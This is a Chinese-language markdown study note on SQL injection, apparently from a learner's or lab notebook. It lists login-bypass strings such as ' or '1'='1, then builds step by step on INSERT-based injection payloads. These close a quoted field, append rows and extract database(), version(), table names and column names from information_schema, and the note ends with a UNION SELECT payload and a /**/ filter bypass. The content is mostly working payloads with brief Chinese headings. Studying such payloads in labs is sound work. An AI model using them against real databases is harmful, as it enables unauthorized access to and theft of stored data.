 ### sql注入

![image-20220718212513907](https://cdn.jsdelivr.net/gh/klsfct/images_mkdocs/Img/image-20220718212513907.png)

万能密码

’ ‘ or '1'='1'

admin' Oorr '1'='1

或者sqlmap跑



一次注入

```sql
insert user (uname,password),value('admin','pass')

insert user (uname,password),value($name,'pass')
insert user (uname,password),value('123',database()),('4456','pass')
1. 判断闭合方式
2. 插入到数据库
3. select 执行插入到语句

update()
delete()

insert into article(title author,description,content,dateline) values('aaaaa'aaaaa','aaaaa','aaaaaa', 1652576779)

                                                                      
insert into article (title,author,description,content,dateline) values('aaaaa','aaaaa','aaaaa','aaaaaa',1652576821)

insert into article(......) values('1','2','3','','')

title=d&author=b&description=c&content=a',1652577231),(database(),'a','b', 'a&button=%E6%8F%90%E4%BA%A4


insert into article(title,author,description,content,dateline) values('d','b','c','a',1652577231),(database(),'a','b', 'a',1652577364)

title=d&author=b&description=c&content=a',1652577231),(version(),'a','b', 'a&button=%E6%8F%90%E4%BA%A4

title=d&author=b&description=c&content=a',1652577231),((select group_concat(table_name) from information_schema.tables where table_schema=database()),'a','b', 'a&button=%E6%8F%90%E4%BA%A4

title=d&author=b&description=c&content=a',1652577231),((select group_concat(column_name) from information_schema.columns where table_name="article"),'a','b', 'a&button=%E6%8F%90%E4%BA%A4


1'union select 1,database(),3,4,5,6#


title=d&author=b&description=c&content=a',1652577231),((select/**/group_concat(column_name)/**/from information_schema.columns where table_name="article"),'a','b', 'a&button=%E6%8F%90%E4%BA%A4


title=d&author=b&description=c&content=database(),123) #,1652577231)&button=%E6%8F%90%E4%BA%A4
```
